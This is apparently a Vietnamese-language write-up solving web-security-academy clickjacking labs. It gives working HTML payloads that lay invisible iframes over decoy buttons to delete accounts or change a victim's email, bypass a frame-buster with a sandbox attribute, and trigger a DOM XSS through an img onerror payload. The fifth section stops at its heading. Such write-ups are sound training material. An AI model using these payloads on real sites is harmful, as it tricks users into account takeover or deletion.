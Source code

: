 # 1. Basic clickjacking with CSRF token protection
Ta vào exploit server và config đoạn HTML sau:
```
<style>
#target_website{
  position: relative;
  width: 600px;
  height: 600px;
  opacity: 0.00001;
  z-index: 2;
}
#decoy_website{
  position: absolute;
  width: 300px;
  height: 400px;
  z-index: 1;
}
#click{
  width: 144px;
  height: 34px;
  position: relative;
  top: 480px;
  left: 19px;
  border-radius: 30px;
}
</style>
<body>
  <div id="decoy_website">
    <button id="click">Click me</button>
  </div>
  <iframe id="target_website" src="https://0a2c004d03768f27c0ac86a700870048.web-security-academy.net/my-account"></iframe>
</body>
```

Đoạn XML trên sẽ tạo một `<iframe>` trỏ tới website có lỗ hổng clickjacking, làm mờ thẻ `<iframe>`, sau đó đặt 1 button đè lên button "Delete account". Khi user click vào button, request xóa user sẽ được gửi đi.

Sau khi click "Deliver to victim", kết quả thành công.

# 2. Clickjacking with form input data prefilled from a URL parameter
Để giải bài lab, ta cần đổi email của user. Nhận thấy nếu đặt query string trong email, ví dụ `/my-account?email=attacker@gmail.com` thì trong ô input của email sẽ tự động được gán giá trị "attacker@gmail.com"

Vào exploit server và cấu hình đoạn HTML sau:
```
<style>
#target_website{
  position: relative;
  width: 600px;
  height: 600px;
  opacity: 0.00001;
  z-index: 2;
}
#decoy_website{
  position: absolute;
  width: 300px;
  height: 400px;
  z-index: 1;
}
#click{
  width: 136px;
  height: 34px;
  position: relative;
  top: 433;
  left: 32px;
  border-radius: 30px;
}
</style>
<body>
  <div id="decoy_website">
    <button id="click">Click me</button>
  </div>
  <iframe id="target_website" src="https://0a00002103d37562c01a91bf00d600cb.web-security-academy.net/my-account?email=attacker@gmail.com"></iframe>
</body>
```

Sau khi click "Deliver to victim", kết quả thành công.

# 3. Clickjacking with a frame buster script
Website có sử dụng Javascript để chặn việc website bị framed:

![image](https://user-images.githubusercontent.com/103978452/210330878-b459d61f-06fb-4b79-827b-19301fd75ede.png)

Tuy nhiên với thuộc tính `sandbox="allow-forms"`, ta có thể disable Javascript. Cấu hình đoạn HTML sau trong exploit server:

```
<style>
#target_website{
  position: relative;
  width: 600px;
  height: 600px;
  opacity: 0.00001;
  z-index: 2;
}
#decoy_website{
  position: absolute;
  width: 300px;
  height: 400px;
  z-index: 1;
}
#click{
  width: 136px;
  height: 34px;
  position: relative;
  top: 433;
  left: 32px;
  border-radius: 30px;
}
</style>
<body>
  <div id="decoy_website">
    <button id="click">Click me</button>
  </div>
  <iframe id="target_website" src="https://0ab100360375e346c04af916004800ba.web-security-academy.net/my-account?email=attacker@gmail.com" sandbox="allow-forms"></iframe>
</body>
```

Sau khi click "Deliver to victim", kết quả thành công.

# 4. Exploiting clickjacking vulnerability to trigger DOM-based XSS
Trong chức năng submit feedback, thử submit với tham số `name=<img src=1 onerror=print()>` thì thấy lệnh print() được execute. Như vậy website có lỗ hổng XSS. Khi ta thêm các tham số name, email, subject và message vào GET request thì giá trị của các ô input được điền vào. Như vậy ta có thể exploit clickjacking.

Trong exploit server, ta cấu hình đoạn HTML sau:
```
<style>
#target_website{
  position: relative;
  width: 600px;
  height: 1000px;
  opacity: 0.9;
  z-index: 2;
}
#decoy_website{
  position: absolute;
  width: 300px;
  height: 400px;
  z-index: 1;
}
#click{
  width: 161px;
  height: 34px;
  position: relative;
  top: 777px;
  left: 18px;
  border-radius: 30px;
}
</style>
<body>
  <div id="decoy_website">
    <button id="click">Click me</button>
  </div>
  <iframe id="target_website" src="https://0ae2003d03b0871cc05cfe2200db00cb.web-security-academy.net/feedback?name=%3Cimg%20src=1%20onerror=print()%3E&email=test@gmail.com&subject=test&message=test"></iframe>
</body>
```

Sau khi click "Deliver to victim", kết quả thành công.

# 5. Multistep clickjacking
